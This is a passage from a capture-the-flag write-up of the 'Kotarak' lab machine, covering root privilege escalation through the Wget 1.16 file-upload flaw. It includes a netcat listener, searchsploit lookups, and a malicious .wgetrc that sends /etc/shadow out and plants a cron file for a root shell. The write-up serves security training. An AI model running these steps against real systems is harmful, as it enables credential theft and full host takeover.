 > **Tip: [Authbind with a Simple Test](https://mutelight.org/authbind){:target="_blank"}**

```bash
touch /etc/authbind/byport/80
chmod +x 80
chgrp b4rto 80
authbind nc -nlvp 80
# I can now!!
```

> **Attacker Machine**:

```bash
searchsploit Wget 1.16
```

<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

It is time to perform an analysis of the exploit, there is a very detailed explanation of the vulnerability and then there are the steps I must perform to execute commands as the **root** user and thus achieve my goal which is to **Escalate privileges**. I just have to create a malicious **.wgetrc** file that will be available thanks to the use of an **FTP** server, configured with the **Python** `pyftpdlib` tool, always bearing in mind that I must resort to the `authbind` utility to open the necessary ports.

> **Attacker Machine**:

```bash
searchsploit -x linux/remote/40064.txt
```

> **Victime Machine**:

```bash
mkdir /tmp/ftptest
cd !$

cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_

cat .wgetrc
python -m pyftpdlib -p21 -w
# :( Use authbind!

ls /etc/authbind/byport
# 21 :)
authbind python -m pyftpdlib -p21 -w
```
